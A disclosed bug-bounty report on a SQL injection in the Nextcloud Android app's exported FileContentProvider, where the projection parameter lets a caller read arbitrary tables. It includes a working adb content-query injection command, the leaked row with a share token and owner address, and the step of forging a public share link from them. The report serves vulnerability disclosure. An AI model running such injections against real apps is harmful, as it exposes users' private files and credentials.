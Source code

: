 # SQLi allow query restriction bypass on exposed FileContentProvider

## Report Details
- **Report ID**: 518669
- **URL**: https://hackerone.com/reports/518669
- **State**: Closed
- **Severity**: low
- **Submitted**: 2019-03-29T12:20:48.281Z
- **Disclosed**: 2019-07-29T08:35:04.189Z

## Reporter
- **Username**: doragon
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: nextcloud

## Vulnerability Information
FileContentProvider is an exposed provider 

As per its definition on https://github.com/nextcloud/android/blob/master/src/main/java/com/owncloud/android/providers/FileContentProvider.java, limited set of data shall be exposed as per
```
 @l444
        switch (mUriMatcher.match(uri)) {
            case ROOT_DIRECTORY:
            case SINGLE_FILE:
            case DIRECTORY:
                break;

            default:
                if (isCallerNotAllowed(uri)) {
                    return null;
                }
}
```
However, the projection map restriction is only applied to ROOT_DIRECTORY @l577
```
 if (mUriMatcher.match(uri) == ROOT_DIRECTORY && projectionArray != null) {
```
because of this, it is possible to bypass the restrictions at @l444 by crafting for instance the  intent

```
 content query --uri content://org.nextcloud/file --projection "* from ocshares --"                                              

```

which results in 

```                                                                        
Row: 0 _id=1, file_source=71580, item_source=71580, share_type=3, shate_with=, path=/Nextcloud.mp4, permissions=1, shared_date=1544792454, expiration_date=0, token=rkNCkcYcbGEBDQN, shared_with_display_name=, is_directory=0, user_id=-1, id_remote_shared=9, owner_share=julien_contacts@cloud.local.yourosoft.com, is_password_protected=0, note=, hide_download=0
```

as per disclosed data on owner_share and token, one can easily forge the query https://cloud.local.yourosoft.com/index.php/s/rkNCkcYcbGEBDQN

any table defined in filelist.db is subject to full disclosure

## Impact

any table defined in filelist.db is subject to full disclosure

## Attachments
No attachments
